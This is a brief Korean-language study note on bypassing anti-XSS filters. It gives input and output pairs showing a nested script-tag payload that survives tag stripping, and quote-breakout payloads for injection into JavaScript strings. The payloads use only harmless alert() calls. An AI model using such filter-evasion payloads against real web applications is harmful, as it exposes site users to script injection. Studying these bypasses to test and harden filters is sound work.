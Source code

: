 # Anti XSS Bypass

Anti XSS는 XSS를 막기 위해 서버에서 설정해놓은 Black List, White List 기반 필터링이다.

Anti XSS Bypass는 우회하는 것을 목적으로 두고 있다.

# White List 필터링 우회 방법

허용해야 할 태그, 속성을 제외한 나머지 모든 문자열에 대해서 필터링하는 방법이다.   
대체로 XSS에 대한 권고 시 가장 추천하는 방식이며   
대체로 게시판과 같이 특수문자를 필터링할 수 없어 태그, 속성에 대해 필터링할 때 사용된다.
</br>
</br>

script 태그 필터링
```
Input: <script>alert(1)</script>
Ouput: alert(1)
```
```
Input: <scr<script>ipt>alert(1)</scr<script>ipt>
Ouput: <script>alert(1)</script>
```
</br>

주석 필터링   
(javascript 내에 XSS가 들어간 상황)   
```
Input: ";alert(1);//
Output: run="alert(1)";
```
```
Input: "+alert(1)+prompt("
Output: run=""+alert(1)+run="";
```
</br>
</br>

